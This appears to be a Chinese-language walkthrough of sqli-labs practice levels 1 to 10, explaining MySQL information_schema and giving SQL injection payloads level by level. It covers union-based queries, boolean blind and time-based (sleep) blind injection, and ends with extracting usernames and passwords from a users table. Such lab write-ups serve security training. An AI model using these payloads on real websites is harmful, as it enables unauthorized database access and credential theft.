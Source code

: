 ### 简介
mysql数据库5.0以上版本有一个自带的数据库叫做information_schema,该数据库下面有两个表一个是tables和columns。\
tables这个表的table_name字段下面是所有数据库存在的表名。\
table_schema字段下是所有表名对应的数据库名。\
columns这个表的colum_name字段下是所有数据库存在的字段名。\
columns_schema字段下是所有表名对应的数据库
### 实战
#### 第一题
1. 判断是否存在sql注入
提示你输入数字值的ID作为参数，我们输入?id=1\
通过数字值不同返回的内容也不同，所以我们输入的内容是带入到数据库里面查询了\
接下来我们判断sql语句是否是拼接，且是字符型还是数字型\
可以根据结果指定是字符型且存在sql注入漏洞。因为该页面存在回显，所以我们可以使用联合查询。联合查询原理简单说一下，联合查询就是两个sql语句一起查询，两张表具有相同的列数，且字段名是一样的\
2. 联合注入
首先知道表格有几列，如果报错就是超过列数，如果显示正常就是没有超出列数\
~~~
?id=1'order by 3 --+
~~~
爆出显示位，就是看看表格里面那一列是在页面显示的。可以看到是第二列和第三列里面的数据是显示在页面的\
~~~
?id=-1'union select 1,2,3--+
~~~
获取当前数据名和版本号\
~~~
?id=-1'union select 1,database(),version()--+
~~~
information_schema.tables表示该数据库下的tables表，点表示下一级。where后面是条件，group_concat()是将查询到结果连接起来。如果不用group_concat查询到的只有user。该语句的意思是查询information_schema数据库下的tables表里面且table_schema字段内容是security的所有table_name的内容。也就是下面表格user和passwd\
~~~
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
~~~
爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在users表中。接下来我们就是得到该表下的字段名以及内容\
该语句的意思是查询information_schema数据库下的columns表里面且table_users字段内容是users的所有column_name的内。注意table_name字段不是只存在于tables表，也是存在columns表中。表示所有字段对应的表名。\
~~~
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
~~~
通过上述操作可以得到两个敏感字段就是username和password,接下来我们就要得到该字段对应的内容\
~~~
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
~~~
#### 第二题
和第一关是一样进行判断，当我们输入单引号或者双引号可以看到报错，且报错信息看不到数字，所有我们可以猜测sql语句应该是数字型注入。那步骤和我们第一关是差不多的
~~~
"SELECT * FROM users WHERE id=$id LIMIT 0,1"
"SELECT * FROM users WHERE id=1 ' LIMIT 0,1"出错信息。
 
 
?id=1 order by 3
?id=-1 union select 1,2,3
?id=-1 union select 1,database(),version()
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'
?id=-1 union select 1,2,group_concat(username ,id , password) from users
~~~
#### 第三题
当我们在输入?id=2'的时候看到页面报错信息。可推断sql语句是单引号字符型且有括号，所以我们需要闭合单引号且也要考虑括号。\
~~~
?id=2')--+
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~
#### 第四题
根据页面报错信息得知sql语句是双引号字符型且有括号，通过以下代码进行sql注入
~~~
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
~~~
#### 第五题
第五关根据页面结果得知是字符型但是和前面四关还是不一样是因为页面虽然有东西。但是只有对于请求对错出现不一样页面其余的就没有了。这个时候我们用联合注入就没有用，因为联合注入是需要页面有回显位。如果数据 不显示只有对错页面显示我们可以选择布尔盲注。布尔盲注主要用到length(),ascii() ,substr()这三个函数，首先通过length()函数确定长度再通过另外两个确定具体字符是什么。布尔盲注向对于联合注入来说需要花费大量时间。
~~~
?id=1'and length((select database()))>9--+
#大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
?id=1'and ascii(substr((select database()),1,1))=115--+
#substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
 
?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
判断所有表名字符长度。
?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
逐一判断表名
 
?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
判断所有字段名的长度
?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
逐一判断字段名。
?id=1' and length((select group_concat(username,password) from users))>109--+
判断字段内容长度
?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
逐一检测内容。
~~~
#### 第六题
第六关和第五关是差不多的，根据页面报错信息可以猜测id参数是双引号，只需将第五关的单引号换成双引号就可以了。
#### 第七题
第七关当在输入id=1,页面显示you are in... 当我们输入id=1'时显示报错，但是没有报错信息，这和我们之前的关卡不一样，之前都有报错信息。当我们输入id=1"时显示正常所以我们可以断定参数id时单引号字符串。因为单引号破坏了他原有语法结构。然后我输入id=1'--+时报错，这时候我们可以输入id=1')--+发现依然报错，之时我试试是不是双括号输入id=1'))--+，发现页面显示正常。那么它的过关手法和前面就一样了选择布尔盲注就可以了。
#### 第八题
第八关和第五关一样就不多说了。只不过第八关没有报错信息，但是有you are in..进行参照。id参数是一个单引号字符串。
#### 第九题
第九关会发现我们不管输入什么页面显示的东西都是一样的，这个时候布尔盲注就不适合我们用，布尔盲注适合页面对于错误和正确结果有不同反应。如果页面一直不变这个时候我们可以使用时间注入，时间注入和布尔盲注两种没有多大差别只不过时间盲注多了if函数和sleep()函数。if(a,sleep(10),1)如果a结果是真的，那么执行sleep(10)页面延迟10秒，如果a的结果是假，执行1，页面不延迟。通过页面时间来判断出id参数是单引号字符串。
~~~
?id=1' and if(1=1,sleep(5),1)--+
判断参数构造。
?id=1'and if(length((select database()))>9,sleep(5),1)--+
判断数据库名长度
 
?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
逐一判断数据库字符
?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
判断所有表名长度

?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
逐一判断表名
?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
判断所有字段名的长度
 
?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
逐一判断字段名。
?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
判断字段内容长度
 
?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
逐一检测内容。
~~~
#### 第十题
第十关和第九关一样只需要将单引号换成双引号。

